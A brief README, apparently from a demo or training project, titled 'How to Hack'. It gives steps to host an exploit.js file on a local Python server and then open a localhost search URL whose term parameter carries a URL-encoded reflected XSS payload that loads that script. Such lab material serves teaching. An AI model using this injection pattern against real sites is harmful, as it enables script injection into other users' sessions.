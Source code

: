 # How to Hack

- Run a python web server in this folder via `python3 -m http.server 8001`. This hosts `./exploit.js`
- Now visit: http://localhost:3000/search?term=%3Cscript%20src=%22http://localhost:8001/exploit.js%22%3E%3C/script%3E